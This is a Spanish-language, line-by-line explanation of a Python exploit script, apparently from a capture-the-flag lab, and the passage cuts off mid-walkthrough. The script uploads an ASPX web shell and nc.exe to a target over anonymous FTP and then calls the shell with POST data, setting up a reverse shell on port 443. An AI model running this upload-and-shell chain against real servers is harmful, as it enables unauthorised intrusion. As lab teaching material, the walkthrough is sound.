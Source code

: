 5. `import signal`: Se importa el módulo `signal`, que permite trabajar con señales del sistema (por ejemplo, manejar la señal de Ctrl+C).

6. `import sys`: Se importa el módulo `sys`, que proporciona funciones y variables que interactúan con el intérprete de Python.

7. `def def_handler(sig, frame):`: Se define una función llamada `def_handler`, que será utilizada para manejar la señal de Ctrl+C. Recibe dos argumentos, `sig` (el número de la señal recibida) y `frame` (el marco de la pila de llamadas al momento de recibir la señal).

8. `print("\n\n[!] Saliendo...\n")`: Imprime un mensaje en la consola indicando que el programa está saliendo.

9. `sys.exit(1)`: Hace que el programa salga con un código de error 1, indicando que la finalización no fue exitosa.

10. `signal.signal(signal.SIGINT, def_handler)`: Aquí se establece que cuando se reciba la señal de Ctrl+C (SIGINT), se llamará a la función `def_handler` definida anteriormente.

11. `malicious_files = ["console.aspx","nc.exe"]`: Se define una lista llamada `malicious_files` que contiene dos nombres de archivos, "console.aspx" y "nc.exe". Estos archivos parecen ser archivos maliciosos que el script usará más adelante.

12. `console_url = "http://10.10.10.5/%s" % malicious_files[0]`: Se define una variable llamada `console_url`, que contiene una URL formada por una dirección IP (10.10.10.5) y el primer elemento de la lista `malicious_files` ("console.aspx"). La URL resultante será utilizada para hacer solicitudes HTTP.

13. `lport = 443`: Se define una variable llamada `lport` y se le asigna el valor 443.

14. `def uploadFiles():`: Se define una función llamada `uploadFiles`, que se encarga de subir archivos a través de FTP al servidor con dirección IP 10.10.10.5.

15. `ftp = FTP()`: Se crea una instancia del objeto `FTP`.

16. `ftp.connect("10.10.10.5", 21)`: Se establece una conexión con el servidor FTP ubicado en la dirección IP 10.10.10.5 y el puerto 21 (puerto estándar de FTP).

17. `ftp.login('anonymous', '')`: Se inicia sesión en el servidor FTP con el nombre de usuario "anonymous" y una contraseña vacía (esto es común en servidores FTP públicos).

18. `for malicious_file in malicious_files:`: Comienza un bucle `for` que recorrerá cada elemento de la lista `malicious_files`.

19. `ftp.storbinary("STOR %s" % malicious_file, open(malicious_file, "rb"))`: Aquí se sube cada archivo en la lista `malicious_files` al servidor FTP. La función `storbinary` realiza la operación de almacenamiento binario, utilizando el nombre de archivo correspondiente en el servidor.

20. `def makeRequest():`: Se define una función llamada `makeRequest`, que será responsable de realizar solicitudes HTTP al servidor web.

21. `s = requests.session()`: Se crea una instancia de sesión HTTP utilizando `requests`.

22. `r = s.get(console_url)`: Se realiza una solicitud GET al servidor web, específicamente a la URL almacenada en la variable `console_url`. La respuesta se almacena en la variable `r`.

23. `post_data = { ... }`: Se crea un diccionario llamado `post_data` que contiene datos que se enviarán mediante una solicitud POST al servidor web. Los datos incluyen VIEWSTATE, EVENTVALIDATION, txtArg y testing.
